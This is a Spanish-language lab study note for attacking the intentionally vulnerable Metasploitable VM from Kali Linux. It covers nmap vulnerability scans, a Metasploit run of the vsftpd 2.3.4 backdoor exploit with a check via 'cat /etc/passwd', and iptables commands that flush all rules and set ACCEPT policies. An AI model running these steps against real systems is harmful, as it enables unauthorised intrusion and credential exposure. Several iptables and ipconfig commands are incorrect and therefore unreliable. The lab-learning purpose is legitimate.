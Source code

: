Ayuda
- NMAP
	- [vulnersCom/namp-vulners NSE nmap repo](https://github.com/vulnersCom/nmap-vulners)
	- [esecurityplanet - Nmap Vulnerability made easy](https://www.esecurityplanet.com/networks/nmap-vulnerability-scanning-made-easy/)
	- [Nmap Docs - NSE Usage](https://nmap.org/book/nse-usage.html)
- vsFTP
	- [Medium Blog - Exploiting vsFTP](https://medium.com/@josegpach/exploiting-ftp-vulnerabilities-on-metasploitable-2-bbd935d42e23)

**Kali Linux**
Escaneo de puertos
- `ping {ip-metasploitable}`
- `nmap --script-updatedb`
- `nmap -sV --script vuln {ip-metasploitable}`
Atacar Puerto 21
- `nmap -sS -sV -O {ip-metasploitable}`: Ver que version esta ejecutando en el puerto 21
- `msfconsole`
- `search vsftpd 2.3.4`: Buscar exploit para esa version de vsftpd
- `use exploit/unix/ftp/vsftpd_234_backdoor`
- `show options`
- `set RHOSTS {ip-metasploitable}`
- `exploit`
Verificar Ataque
- `ipconfig`
- `whoami`
- `ls`
- `cat /etc/passwd`

## Sistema de deteccion de instrusos
Maquinas a usar en modo Red NAT
- [Kali](https://www.kali.org/)
- [Metasploitable](https://www.rapid7.com/products/metasploit/metasploitable/) | [Guia de instalacion](https://github.com/z0s3r77/Metasplotable_2)

Paginas Apoyo
- Leer Nota [[999 - Archivado/IPtables|IPtables]]
- [Kali - Tools/snort](https://www.kali.org/tools/snort/)
- [Guia Snort en kali](https://laboratoriolinux.es/index.php/-noticias-mundo-linux-/software/35752-como-usar-snort-en-kali-linux-guia-paso-a-paso.html)

**Kali Linux**
Borrar todas las reglas de iptables
- `iptables -F`
- `iptables -t NAT -F`
- `iptables -t filter -F`
- `iptables -t mangle -F`
- `iptables -X`
- `iptables -L`

Definir reglas por defecto en ACCEPT
- `iptables -P input ACCEPT`
- `iptables -P output ACCEPT`
- `iptables -P forward ACCEPT`
- `iptables -P prerouting ACCEPT`
- `iptables -P postrouting ACCEPT`
